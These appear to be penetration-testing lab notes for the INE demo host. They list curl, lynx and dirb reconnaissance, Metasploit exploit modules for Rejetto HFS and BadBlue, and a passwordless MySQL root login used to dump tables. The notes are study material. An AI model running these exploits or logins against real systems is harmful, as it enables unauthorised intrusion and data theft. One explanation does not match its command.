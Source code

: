 > Will show the data of `robot.txt`

```Shell
curl http://demo.ine.local/
```

> The `curl http://demo.ine.local/` command sends an HTTP GET request to the specified URL (`http://demo.ine.local/`) and returns the response from the server, which typically includes the HTML content of the webpage.

```Shell
lynx http://demo.ine.local
```

> The `lynx http://demo.ine.local` command uses the Lynx web browser, a text-based browser, to access and display the content of the specified URL (`http://demo.ine.local`) in the terminal.

```Shell
dirb http://<ip-address> /usr/share/metasploit-framework/data/wordlists/directory.txt
```

> The command runs `dirb`, a web content scanner, against the specified IP address using a wordlist from Metasploit (`directory.txt`) to discover hidden directories and files on the target web server.

```msfconsole
use exploit/windows/http/rejetto_hfs_exec 
show options
set RHOST <ip-address>
exploit
```

> This module can be used to exploit rejetto http file server. 

```msfconsole
use exploit/windows/http/badblue_passthru
show options
set RHOST <ip-address>
exploit
```

> This can be used to exploit bad blue service.

#### MYSQL Commands:

```Shell
mysql -h <ip-address> -u root
```

> This command can be used to connect to `mysql` through a particular user without any specific password: 

`show databases;`: This command is used to show data bases.
`use <name>;`: This command is used to use a specific data base.
`show tables;`: This command can be used to show the elements of Database. 

```sql
SELECT * FROM table_name;
```

>This command retrieves all the data from a specific table.
